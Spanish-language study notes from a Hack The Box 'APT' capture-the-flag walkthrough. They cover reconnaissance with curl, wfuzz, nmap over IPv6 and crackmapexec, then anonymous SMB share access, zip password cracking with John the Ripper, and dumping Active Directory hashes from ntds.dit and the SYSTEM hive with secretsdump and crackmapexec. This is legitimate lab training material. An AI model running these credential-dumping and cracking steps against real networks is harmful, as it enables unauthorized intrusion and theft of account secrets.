 # HTB APT Machine

CURL para  ver las cabeceras

```
curl -s -X GET http://10.129.96.60 -I
s Silent 
X indicar tipo de peticion 
I solo para mostrar las cabeceras

```

WFUZZ puedes usar una lista de extenciones definidas 

```
wfuzz -c --hc=404 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,zip-php-asp-aspx http://127.0.0.1:8081/FUZZ.FUZ2Z

```


# ¿Qué es msrpc.exe en mi computador?

> Es la implementación de Microsoft (MS) del RPC (remote procedure call), el cual es parte del subconjunto POSIX de Windows.

# IOXIDResolver port 135

Ayuda a ver si se puede obtener la ipv6 de la maquina por e


```
python3 IOXIDResolver.py -t 10.129.96.60

Ver si la ipv6 responde

ping6 dead:beef::b885:d62a:d679:573f

```

# NMAP IPv6

```
nmap -sC -p53,80,88,135,389,445,464,593,636,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49689,52968 -6 dead:beef::b885:d62a:d679:573f -oN targetedipv6
```
# Crackmapexec ipv6

Para usar esta herramienta solo pasa la ipv6 y listo

```
crackmapexec smb dead:beef::b885:d62a:d679:573f

```


# Puertos Abiertos 

Los servicios que se pueden ver y que quiza seria bueno memorizar son:

```
88 Kerberos
389 LDAP
445 SMB
5985 Servicio de Administracion remota de Windows( Si se tuviera credenciales validas podriamos suponer que el usario
es parte del grupo " Remote Managment Users y podriamos conectarnos con evilwinrm) igual se puede hacer con cme

```

## 445 

Para enlistar los recursos compartidos usamos 

### cme

```
crackmapexec smb dead:beef::b885:d62a:d679:573f --shares

```

Con el comando anterior no arroja nada pero probaremos con smbclient

### smbclient

Nombre de la maquina apt 

```
smbclient -L apt/htb.local -N  

```

### Conectarse a un recurso compartido

```
smbclient //htb.local/backup -N
dir 
get archivoadescargar.zip
```

Usando el comando file para ver si realmente es un zip ( recuerda usa los files signatures) para saber el tipo de archivo

```
file backups.zip

```

## 7z Checar que hay dentro 

Para checar dentro usa la "l" si te das cuenta como los comandos que se le pasan a 7z no tienen -

```
7z l backup.zip 

```

Lista lo que hay dentro.

Para descifrar un password primero se saca el hash 

```
zip2john

```
 Ese hash se le pasa a John The Ripper
 
 ```
 john -w:/usr/share/wordlists/rockyou.txt hash
 
 ```
 

# NTDS DUMPEAR hashes 

> Un controlador de dominio es miembro de un único sitio y se representa en el sitio mediante un objeto de servidor Active Directory Domain Services (AD DS). Cada objeto de servidor tiene un objeto NTDS Configuración que representa el controlador de dominio de replicación en el sitio

Cuando se compromete un dominio  se suele dumpear el contenido de NTDS ( en local se dumpea la SAM y el SYSTEM para listar los hashes de los usuarios a nivel local con esos hashes puedes aplicar pass the hash en caso de que aplique y que sea priviligeado el usuario).

Pero volvemos cuando comprometes un controlador de dominio puedes dumpear el NTDS.dir y el SYSTEM para dumpear todos los hashes de los usuarios del directorio activo

```
reg save HKLM\system system.backup
```

## Alternativa cme y con impacket-secretsdump.py

Para esta tenemos que tener credenciales validas de un domain admin.***Importante el kali se usa impacket-packete*** para llamar a secretsdump.py se hace asi:

```
impacket-secretsdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
rackmapexec smb apt -u 'domainadmin' -p 'password' --ntds vss # Intentarra volvarte todos lo hashes a nivel de dominio


```












